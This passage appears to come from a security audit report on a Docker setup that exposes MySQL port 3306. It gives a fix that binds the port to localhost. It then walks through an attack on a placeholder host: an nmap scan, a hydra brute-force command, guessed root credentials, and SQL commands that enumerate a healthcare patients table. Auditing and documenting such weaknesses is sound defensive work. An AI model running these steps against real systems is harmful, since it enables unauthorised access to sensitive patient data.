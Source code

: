 **Problem:** MySQL port 3306 exposed to host machine

```yaml
# docker-compose.yml
ports:
  - "3306:3306"    # EXPOSED
```

**Allows:**
- Direct connection from outside container
- Bypassing application layer security
- Brute force attacks from any network location
- No application-level rate limiting

**Attack:**
```bash
# From attacker machine:
nmap -p 3306 target-host
# Port 3306 open

# Brute force:
hydra -L users.txt -P passwords.txt mysql://target-host
```

**Should be:**
```yaml
# Only expose to internal Docker network
# NO ports section, or:
ports:
  - "127.0.0.1:3306:3306"  # Localhost only
```

---

## Exploitation Scenarios

### Scenario 1: Credential Stuffing → Full Database Access

**Attack Steps:**

1. **Reconnaissance:**
```bash
nmap -sV -p 3306 target-host
# Identifies MySQL 8.0
```

2. **Credential Guessing:**
```bash
# Try common credentials
mysql -h target-host -u root -padmin
mysql -h target-host -u root -padmin123  # SUCCESS!
```

3. **Database Enumeration:**
```sql
SHOW DATABASES;
USE healthcare_db;
SHOW TABLES;
DESCRIBE patients;
```
